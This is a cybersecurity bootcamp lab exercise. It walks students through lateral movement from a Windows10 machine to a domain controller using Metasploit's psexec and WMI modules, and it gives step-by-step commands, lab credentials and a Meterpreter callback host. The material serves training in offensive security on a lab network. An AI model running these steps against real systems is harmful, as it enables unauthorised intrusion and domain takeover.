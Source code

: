 ## Activity File: Lateral Movement 

For this activity, you will use bbaner's credentials to move laterally from Windows10 to WINDC01.

**Note:** This requires a SYSTEM shell on the Windows10 machine. If you do not have a SYSTEM shell, use `exploit/windows/smb/psexec` with "tstark's" credentials to obtain one.

⚠️ **Reminder** - Don't forget to save your findings, as you will add them to your week 17 Homework!


### Instructions

1. First, ensure you're working from a SYSTEM level shell on the Windows10 machine, then use the 'exploit/windows/local/wmi' module.

	- `use exploit/windows/local/wmi`
	
2. Next, set the following parameters:
		
	- `set RHOSTS 172.22.117.10`
	
	- `set SESSION [ID of the active Meterpreter session running as SYSTEM]`
	
	- `set SMBDomain megacorpone`
	
	- `set SMBUser bbanner`
	
	- `set SMBPass Winter2021`
	
	- `set LHOST 172.22.117.100`
	
	and run the payload
	
	- `run -j`

	- ![Screenshot depicts the module settings](../../../Images/wmioptions.PNG)	
	
3. Run the exploit. It may give an error, but should return another Meterpreter session on the WINDC01 machine.

	- `run`
	
	- `sysinfo`

	- ![Screenshot depicts the successful run and info of the system](../../../Images/wmiexploit.PNG)		
	
You have successfully launched the WMI exploit from our Meterpreter session on Windows10 to WINDC01. From a network traffic perspective, the exploit content occured between Windows10 and WINDC01, instead of Ubuntu to WINDC01. 

---
© 2022 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.
